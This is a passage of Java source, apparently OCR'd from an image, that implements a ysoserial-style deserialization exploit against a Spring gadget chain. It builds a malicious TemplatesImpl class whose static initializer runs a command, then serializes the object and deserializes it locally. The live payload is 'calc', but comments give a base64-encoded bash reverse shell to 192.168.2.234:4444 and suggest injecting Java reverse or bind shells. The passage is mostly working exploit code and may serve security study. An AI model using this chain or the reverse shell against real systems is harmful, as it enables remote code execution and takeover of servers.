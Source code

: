 ```java

        // -----------------下边的这段代码就不用关注了-----------------
        Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
        mitpCtor.setAccessible(true);
        // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
        final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
        final Field field = mitp.getClass().getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(mitp, "getOutputProperties");

        serialize(mitp);
        unSerialize();
    }

    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void unSerialize() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
    public static TemplatesImpl genTemplates() throws Exception {
        // bash -c {echo,bash -i >& /dev/tcp/192.168.2.234/4444 0>&1}|{base64,-d}|{bash,-i}
        // bash -c {echo,<base64反弹shell>}|{base64,-d}|{bash,-i}
        // String shellcode = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMjM0LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}";
        String shellcode = "calc";
        String executeCode = "Runtime.getRuntime().exec(\"" + shellcode + "\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
```